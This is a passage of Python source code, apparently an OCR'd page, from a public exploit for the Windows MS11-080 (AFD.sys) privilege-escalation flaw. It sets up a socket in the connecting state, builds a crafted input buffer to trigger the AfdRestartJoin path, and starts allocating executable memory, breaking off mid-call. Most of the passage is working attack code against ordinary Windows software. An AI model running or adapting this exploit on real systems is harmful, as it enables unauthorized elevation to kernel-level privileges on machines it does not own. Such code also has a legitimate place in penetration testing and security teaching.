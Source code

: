                         return (baseaddy, drivername.value)
        return None

    print "[>] MS11-080 Privilege Escalation Exploit"
    print "[>] Matteo Memelli - ryujin@offsec.com"
    print "[>] Release Date 28/11/2011"

    WSAGetLastError          = windll.Ws2_32.WSAGetLastError
    WSAGetLastError.argtypes = ()
    WSAGetLastError.restype  = c_int
    SOCKET                   = c_int
    WSASocket                = windll.Ws2_32.WSASocketA
    WSASocket.argtypes       = (c_int, c_int, c_int, c_void_p, c_uint, DWORD)
    WSASocket.restype        = SOCKET
    closesocket              = windll.Ws2_32.closesocket
    closesocket.argtypes     = (SOCKET,)
    closesocket.restype      = c_int
    connect                  = windll.Ws2_32.connect
    connect.argtypes         = (SOCKET, c_void_p, c_int)
    connect.restype          = c_int

    class sockaddr_in(Structure):
        _fields_ = [
            ("sin_family", c_short),
            ("sin_port", c_ushort),
            ("sin_addr", c_ulong),
            ("sin_zero", c_char * 8),
            ]

    ## Create our deviceiocontrol socket handle
    client = WSASocket(socket.AF_INET, socket.SOCK_STREAM, socket.IPPROTO_TCP,
                       None, 0, 0)
    if client == ~0:
        raise OSError, "WSASocket: %s" % (WSAGetLastError(),)
    try:
        addr = sockaddr_in()
        addr.sin_family = socket.AF_INET
        addr.sin_port = socket.htons(4455)
        addr.sin_addr = socket.htonl(0x7f000001) # 127.0.0.1
        ## We need to connect to a closed port, socket state must be CONNECTING
        connect(client, byref(addr), sizeof(addr))
    except:
        closesocket(client)
        raise

    baseadd    = c_int(0x1001)
    MEMRES     = (0x1000 | 0x2000)
    PAGEEXE    = 0x00000040
    Zerobits   = c_int(0)
    RegionSize = c_int(0x1000)
    written    = c_int(0)
    ## This will trigger the path to AfdRestartJoin
    irpstuff   = ("\x41\x41\x41\x41\x42\x42\x42\x42"
                  "\x00\x00\x00\x00\x44\x44\x44\x44"
                  "\x01\x00\x00\x00"
                  "\xe8\x00" + "4" + "\xf0\x00" + "\x45"*231)
    ## Allocate space for the input buffer
    dwStatus = ntdll.NtAllocateVirtualMemory(-1,
                                         byref(baseadd),
                                         0x0,